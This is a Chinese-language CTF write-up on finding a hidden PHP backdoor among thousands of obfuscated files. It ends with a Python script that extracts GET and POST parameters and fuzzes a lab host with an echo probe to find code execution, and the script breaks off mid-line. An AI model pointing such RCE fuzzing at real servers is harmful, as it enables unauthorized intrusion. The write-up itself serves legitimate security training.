


# [强网杯 2019]高明的黑客

## 基本信息

- 题目名称：[强网杯 2019]高明的黑客
- 题目链接：https://www.nssctf.cn/problem/21
- 考点清单：PHP 代码审计、正则表达式、Python 自动化、RCE
- 工具清单：Python、requests、VS Code

## 一、看到什么

下载题目附件 `www.tar.gz`，解压后使用 VS Code 打开

发现压缩包中包含大量 PHP 文件，文件名均经过混淆处理，且 PHP 代码存在类似 JSFuck 的混淆形式，难以直接阅读

初步尝试搜索 `flag`、`FLAG`、`eval`、`include` 等关键词，但无法从中快速定位有效的利用点

## 二、想到什么解题思路

面对大量经过混淆的 PHP 源码，传统的逐文件人工审计不仅耗时耗力，且极易遗漏隐藏的后门

在初步通过关键词全局检索时，发现 `eval` 在约两千个文件中高频出现了九千余次，而 `include` 则无一命中；与此同时，代码中涉及的 `$_GET` 与 `$_POST` 输入点同样体量庞大

鉴于待测文件与参数基数极高，纯手工阅读或逐一 Fuzzing 显然不切实际

为此，决定采用**静态参数提取与动态模糊测试（Fuzzing）相结合**的自动化方案：

编写 Python 脚本批量解析源码中的输入点，构造探针 Payload 发起高频探测，从而快速锁定真实的代码执行漏洞

### 探测原理

使用极简的回显探针作为测试 Payload：

```php
echo 'hello world!';
```

若目标参数存在任意代码执行（RCE）缺陷，该语句便会被成功解析，其输出字符串 `hello world!` 也将直接回显在 HTTP 响应正文中。通过正则或关键字匹配响应包，即可低成本、高准确率地识别出有效利用点

### 自动化审计流程

1. **全局遍历**：递归扫描本地所有待审计的 PHP 源码文件，建立路径映射
2. **正则提取**：编写正则表达式批量匹配源码中的 `$_GET` 与 `$_POST` 键名，汇总各文件的潜在可控参数列表
3. **批量初筛（粗粒度探测）**：针对单个文件，将提取出的所有 GET/POST 参数一次性全量填充为探测 Payload 并发起请求，实现高并发快速筛选
4. **目标标记**：监控 HTTP 响应内容，一旦检测到 `hello world!` 特征回显，立即将该文件标记为高危可疑目标
5. **精确定位（细粒度验证）**：针对筛选出的可疑文件，将其参数列表拆解并逐一独立发包测试，最终精准锁定触发代码执行的具体请求方式（GET/POST）与确切参数名

## 三、尝试过程和结果记录

运行下列代码，得到注入点



利用该注入点，得到 Flag



## 总结与反思

这道题目与传统的源码审计有着本质区别，它并非层层嵌套的逻辑迷宫，也不侧重于考察各类危险函数的奇技淫巧与过滤绕过

从前期的全局关键词检索中其实就能窥见端倪：面对如此庞大的文件体量，常规的 Web 应用必然存在错综复杂的文件包含与引用关系，但检索 `include` 却无一命中；反观 `eval` 竟在两千余个文件中出现了九千多次

如此极端的分布基数，本身就是出题人留下的强烈暗示——这是一道典型的**工程化自动化审计题**

回顾整套题链路，核心逻辑其实非常纯粹：`遍历拼接目标文件路径 -> 正则批量提取 GET/POST 参数键名 -> 构造回显探针 echo 'hello world!'; 发起自动化探测 -> 匹配响应特征精准锁定漏洞点`

整个过程中，关键异常点（`eval` 泛滥与 `include` 缺失）也已基本捕捉到位

但坦白讲，由于实战积累尚浅，解压看到三千多个经过混淆的 PHP 文件时，第一反应依然是手足无措、无从下手

如今站在“已知答案”的后视镜视角去复盘和撰写 wp，整套思路显得顺理成章、水到渠成；然而，这种事后诸葛亮式的“简单”，往往容易催生出一种笃定的盲目

比如，**为何能果断放弃传统源码分析转而采用批量 Fuzzing？为何能第一时间笃定选用最基础的回显探针而非其他利用方式？** ，往往还是有种无力感的

## 完整 EXP：

```python
import re
import time
import threading
from pathlib import Path

import requests


# 全局配置

SOURCE_PATH = Path(r"E:\download_firefox\1\src")
BASE_URL = "http://node4.anna.nssctf.cn:20049/"
THREAD_NUM = 10                  # 每组文件数量
PAYLOAD = "echo 'hello world!';"
STOP_EVENT = threading.Event()


# 文件处理

def get_file(path, thread_num):
    """获取 PHP 源码文件，并按照指定数量分组。"""

    files = list(path.iterdir())

    return [
        files[i:i + thread_num]
        for i in range(0, len(files), thread_num)
    ]


# 参数提取与检测

def read_file(base_url, file_path):
    """提取 PHP 源码中的 GET / POST 参数，并进行 RCE 探测。"""

    content = file_path.read_text(encoding="utf-8")

    # 提取 $_GET['xxx'] 和 $_GET["xxx"] 中的参数名
    gets = re.findall(
        r"""\$_GET\[\s*['"](.+?)['"]\s*\]""",
        content
    )

    # 提取 $_POST['xxx'] 和 $_POST["xxx"] 中的参数名
    posts = re.findall(
        r"""\$_POST\[\s*['"](.+?)['"]\s*\]""",
        content
    )

    # 去重，保持原始出现顺序
    gets = list(dict.fromkeys(gets))
    posts = list(dict.fromkeys(posts))

    # 构造第一次批量测试所需的 GET / POST 参数
    params = {key: PAYLOAD for key in gets}
    data = {key: PAYLOAD for key in posts}

    # 拼接远程 PHP 文件地址
    url = f"{base_url.rstrip('/')}/{file_path.name}"

    # 第一阶段：批量测试

    with requests.Session() as session:

        # 一次性提交所有 GET 和 POST 参数
        with session.post(url, params=params, data=data) as response:
            content = response.text

        if "hello world!" not in content:
            return

        print(f"[+] Potential RCE: {file_path.name}")

        # 第二阶段：精准定位

        # 按照 GET 优先、POST 次之的顺序逐个测试
        for method, keys in (("GET", gets), ("POST", posts)):

            for key in keys:

                # 发现其他线程已经命中，则停止继续测试
                if STOP_EVENT.is_set():
                    return

                # 根据请求方法选择对应的参数传递方式
                if method == "GET":
                    response = session.get(
                        url,
                        params={key: PAYLOAD}
                    )
                else:
                    response = session.post(
                        url,
                        data={key: PAYLOAD}
                    )

                with response:
                    content = response.text

                if "hello world!" in content:
                    print(f"[+] Find {method}: {file_path.name}, param: {key}")
                    STOP_EVENT.set()
                    return

                time.sleep(1)


# 线程执行

def worker(base_url, file_list):

    for file_path in file_list:

        if STOP_EVENT.is_set():
            break

        read_file(base_url, file
```
